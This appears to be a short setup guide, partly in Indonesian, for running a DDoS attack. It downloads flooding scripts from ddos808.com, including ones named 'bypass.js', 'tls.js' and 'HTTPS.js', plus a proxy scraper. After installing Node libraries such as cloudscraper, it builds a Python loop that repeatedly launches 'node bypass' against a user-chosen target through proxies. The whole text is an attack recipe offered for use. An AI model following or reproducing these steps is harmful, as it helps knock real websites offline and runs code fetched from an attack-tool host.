 apt update

apt install npm

curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash && source ~/.bashrc

nvm install 18 && nvm use 18

wget https://ddos808.com/upload/ua.txt

wget https://ddos808.com/upload/HTTPS.js

wget https://ddos808.com/upload/mix.js

wget https://ddos808.com/upload/bypass.js

wget https://ddos808.com/upload/pink.js

wget https://ddos808.com/upload/tls.js

wget https://ddos808.com/upload/static.js

wget https://ddos808.com/upload/scrape.py


npm i fake-useragent
npm i request
npm i gradient-string 
npm i cheerio
npm i randomstring
npm i user-agents
npm i axios
npm i hpack
npm i sockopt
npm i cloudscraper

python3 scrape.py









PERINTAH UNTUK MASUKIN LIST DDOS
nano auto.py



import os
import time

while True:
    os.system("node bypass Link kamu 120 64 10 proxy.txt")
    os.system("node bypass Link kamu 120 64 10 proxy.txt")
    os.system("node bypass Link kamu 120 64 10 proxy.txt")
    os.system("node bypass Link kamu 120 64 10 proxy.txt")
    os.system("node bypass Link kamu 120 64 10 proxy.txt")
    os.system("node bypass Link kamu 120 64 10 proxy.txt")
    os.system("node bypass Link kamu 120 64 10 proxy.txt")
    time.sleep(10)

	
	
Jika selesai 
CTRL + X + Y ( Jika ganti ) ( Jika tidak cukup CTRL +Y )
	
	

perintah jalanin ddos auto 
screen python3 auto.py
